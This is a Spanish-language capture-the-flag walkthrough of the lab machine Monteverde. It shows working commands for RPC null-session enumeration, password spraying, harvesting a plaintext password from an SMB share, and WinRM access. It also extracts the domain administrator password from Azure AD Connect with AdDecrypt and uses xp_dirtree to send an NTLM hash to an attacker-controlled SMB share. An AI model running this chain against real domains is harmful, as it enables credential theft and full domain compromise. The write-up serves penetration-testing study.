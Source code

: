 10.10.10.172 - Monteverde
-------------------------

Puertos abiertos -> 88(kerberos), 135(rpc), 139, 464, 5985(winrm)

Con crackmapexec podemos hacer un reconocimiento del dominio como sacar el nombre y sistema
```console
└─$ crackmapexec smb 10.10.10.172
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
```


## Puerto 135 RPC:
Tenemos suerte y podemos tirar de una null session:
```console
└─$ rpcclient -U "" 10.10.10.172 -N -c "enumdomusers" | grep -oP "\[.*?\]" | grep -v "0x" | tr -d "[]" >> users.txt
# Una buena lista de usaurios
└─$ rpcclient -U "" 10.10.10.172 -N -c "enumdomgroups"
# Nos copiamos en un archivo de texto los grupos, ya que hay alguno interesante. No tenemos el clásico domain admins pero si Azure Admins
└─$ rpcclient -U "" 10.10.10.172 -N -c "querygroupmem 0xa29" 
# Los de Azure -> 0x1f4, 0x450, 0x641. EL problema esque si preguntamos por queryuser y uno nos da access denied
```

## Puerto 88 kerberos:
```console
└─$ kerbrute userenum --dc 10.10.10.172 -d megabank.local users.txt
# Todos validos
└─$ /usr/bin/impacket-GetNPUsers megabank.local/ -no-pass -usersfile users.txt  
# Todos tienen el UF_DONT_REQUIRE_PREAUTH seteado, asi que nada de contraseñas.
```

## SMB - Crackmapexec
Como no tenemos creds, se pueden sacar de maneras como el nombre de la máquina, o...  
El nombre del propio usaurio (u otro usuario por si son pareja). Un error como un piano.
```console
└─$ crackmapexec smb 10.10.10.172 -u users.txt -p users.txt --continue-on-succes 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

Probamos otro ultimo ataque por kerberos al conseguir creds:
```console
└─$ impacket-GetUserSPNs megabank.local/SABatchJobs:SABatchJobs -dc-ip 10.10.10.172 -request
# No hay suerte
```

Seguimos con SMB. Voy mostrando los unicos lugares que no están vacíos  
```console
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs'
# Tenemos acceso a "azure_uploads", "IPC$", "NELOGON", "SYSVOL" y users$"" 
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' -r "users$"
# Hay varias carpetas "dgalanos", "mhope", "smorgan" y "roleary". Solo mhope tiene un archivo "azure.xml"
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --download "users$/mhope/azure.xml"
└─$ cat 10.10.10.172-users_mhope_azure.xml 
<ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
<S N="Password">4n0therD4y@n0th3r$</S>
```
El mhope este era uno de los usaurios que obtuvimos del RPC, y esta parece su contraseña.
```console
└─$ crackmapexec smb 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
```
En efecto. Vuelvo a probar el GetUsersSPNs con estas nuevas creds pero tampoco.
Con el smbmap no encuentro nada más que con la otra chica.
```console
└─$ crackmapexec winrm 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
└─$ evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'  
*Evil-WinRM* PS C:\Users\mhope\Documents>
```
Tras una enumeración con mi script de windows
- Nuestro mhope pertenece a "Azure Admins" y "Domain Users"
- Hay backups del SAM y system en C:\Windows\System32\config\

Al ser un dominio Azure está configurado de manera diferente, remota.
Al ser algo instalado de fuera habría que mirar en "Program Files":
```console
*Evil-WinRM* PS C:\Program Files> dir | findstr "Azure"
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

En este [articulo](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/) hablan de uan vuln
Habría que descargarse la [release](https://github.com/VbScrub/AdSyncDecrypt/releases/download/v1.0/AdDecrypt.zip)
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload /home/cucuxii/Maquinas/htb/Monteverde/mcrypt.dll
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload /home/cucuxii/Maquinas/htb/Monteverde/AdDecrypt.exe
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\Desktop\AdDecrypt.exe -FullSQL
Username: administrator
Password: d0m@in4dminyeah!
```

Ahora te podrias conectar como admin ```evil-winrm -i 10.10.10.172 -u 'administrator' -p 'd0m@in4dminyeah!'```

## Extra: Analizando la vuln de Azure
[Fuente](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)
[FUente 2](https://blog.xpnsec.com/azuread-connect-for-redteam/)
[Video](https://www.youtube.com/watch?v=JEIR5oGCwdg)

El servicio "Azure AD Connect" conecta el directorio activo local con la plataforma de dominios de Azure. Dicho
servicio, para gestionar desde Azure tu sistema necesita credenciales de administrador.

AdDecrypt.exe
Las creds se sacan de una SQL llamada "ADSync" (tablas mms_management y mms_server) y se desencriptan. 

mcrypt.dll
Codigo en C# que se encarga de descenriptar lo sacado antes (DPAPI)

Ivestigando el articulo de esa persona podemos navegar por las bases de datos que dice
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "select name from sys.databases"
master
tempdb
model
msdb
ADSync

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "xp_dirtree '\\10.10.14.12\carpeta'"
└─$ impacket-smbserver carpeta $(pwd) -smb2support

[*] MONTEVERDE$::MEGABANK:aaaaaaaaaaaaaaaa:51e2852a7fe64f40ec474fe257c9eec8:0101000000000000001e935bacfdd80160fc5fcc717a077e00000000010010005700460047007800730059006d005800030010005700460047007800730059006d00580002001000670074006d006d00790075006e00610004001000670074006d006d00790075006e00610007000800001e935bacfdd80106000400020000000800300030000000000000000000000000300000c42f279549204924bbc39fce074dc6fdd4df5f988eee2073af01708ebd8864090a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310032000000000000000000
```
Vemos que se ha enviado un hash por ahí que hemos interceptado, es decir alguin se ha autenticado contra alguien.
(Azure y megabank.local)

Si vemos el script en Fuente 2 e intentamos replicar la query:
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
Invalid object name 'mms_management_agent'

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "use ADSync; select private_configuration_xml,encrypted_configuration from mms_management_agent"
 <forest-name>MEGABANK.LOCAL</forest-name>
 <forest-port>0</forest-port>
 <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
 <forest-login-user>administrator</forest-login-user>
 <forest-login-domain>MEGABANK.LOCAL 8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "use ADSync; select keyset_id,instance_id,entropy from mms_server_configuration"
keyset_id   instance_id                          entropy
          1 1852B527-DD4F-4ECF-B541-EFCCBFF29E31 194EC2FC-F186-46CF-B44D-071EB61F49CD
```

Luego explica cosas de mas bajo nivel que se escapan de mi entendimiento, pero al menos hemos sacado una idea de 
lo que está haciendo.
